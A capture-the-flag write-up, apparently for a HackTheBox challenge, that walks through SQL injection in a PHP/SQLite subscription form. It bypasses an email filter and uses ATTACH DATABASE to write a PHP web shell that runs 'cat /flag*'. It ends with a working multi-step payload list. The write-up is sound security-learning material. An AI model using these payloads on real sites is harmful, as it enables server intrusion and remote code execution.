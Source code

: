## Skills involved: SQL injection, filter bypass

I didn't have experience in SQLite, it was a sleepless night but I had a lot of fun with this one.

After downloading the source code, one simply can't miss the blatant SQL injection:
```php
public function subscribeUser($ip_address, $email)
{
  return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```

From the Dockerfile I know that the file name of flag is randomized. This means that I at least need RCE (`cat /flag*`) from SQL injection - which I hadn't thought possible. I had to confirm with an admin that it was indeed possible.

I knew that I need a `');` to end the INSERT command, as in SQLite INSERT statements can only be followed by an upsert clause for unique fields which is not useful now. It doesn't seem like a valid character in email however. Thanks to [this post](https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17) we know that quotation marks can be added to the "local-part": `"');--"@a.b`.

Now we have another problem: the space character `%20` cannot be used in the email. There are [alternative space characters in SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) however. Of those characters, only `%0C` passes the PHP filter. Alternatively we can use `/**/` but it's significantly longer.

For the RCE part, it turned out I could create database files in SQLite with the `ATTACH DATABASE` command: `"');ATTACH'.php'AS/**/q;--"@c.d`. Unnecessary spaces are removed to make the command shorter.

For the next step I tried create a table: `"');CREATE/**/TABLE/**/q.r('s'text);--"@c.d`. But:

`PHP message: PHP Warning:  SQLite3::exec(): unknown database q in /www/Database.php on line 36`

So I had to include the attach phrase as well:
`"');ATTACH'.php'AS/**/q;CREATE/**/TABLE/**/q.r('s'text)--"@c.d`

The final step is to create the PHP payload: `<?=system('cat /flag*')?>`. We have 3 problems here:
- ' needs to be escaped - this is simple enough with ''
- The space character cannot be replaced with `%0C` - it took some research but we can use `char(32)` instead.
- The whole payload along with the ATTACH statement is too long as an email local-part - we can only use 64 letters. This made me think of splitting the payload into a number of queries.

My final payloads (replace all space character with `%0C` with Burp):
```
"');ATTACH'.php'AS q;CREATE TABLE q.r('s'text)--"@c.d
"');ATTACH'.php'AS q;INSERT INTO r VALUES('system(''cat')--"@c.d
"');ATTACH'.php'AS q;UPDATE r SET s=s||char(32)--"@c.d
"');ATTACH'.php'AS q;UPDATE r SET s=s||'/flag*'')?>'--"@c.d
"');ATTACH'.php'AS q;UPDATE r SET s='<?='||s--"@c.d
```

**FLAG: HTB{inj3ct3d_th3_tru7h}**

Remark: I could have researched faster by simply going to [Wikipedia](https://en.wikipedia.org/wiki/Email_address)
